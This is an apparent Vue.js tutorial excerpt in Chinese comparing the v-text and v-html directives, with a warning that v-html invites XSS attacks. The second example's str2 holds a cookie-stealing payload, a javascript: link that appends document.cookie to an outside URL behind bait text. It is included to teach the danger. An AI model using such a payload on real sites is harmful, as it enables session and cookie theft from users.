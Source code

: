 ```html
  <div id="root">
   <div>你好，{{name}}</div>
   <div v-text="name"></div>
   <div v-text="str"></div>
  </div>
 

 <script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
  
  new Vue({
   el:'#root',
   data:{
    name:'尚硅谷',
    str:'<h3>你好啊！</h3>'
   }
  })
 </script>

```

### v-html指令

1.作用：向指定节点中渲染包含html结构的内容。
2.与插值语法的区别：
   (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
   (2).v-html可以识别html结构。
3.严重注意：v-html有安全性问题！！！！
   (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
    <div id="root">
   <div>你好，{{name}}</div>
   <div v-html="str"></div>
   <div v-html="str2"></div>
  </div>
 

 <script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

  new Vue({
   el:'#root',
   data:{
    name:'尚硅谷',
    str:'<h3>你好啊！</h3>',
    str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
   }
  })
 </script>

```
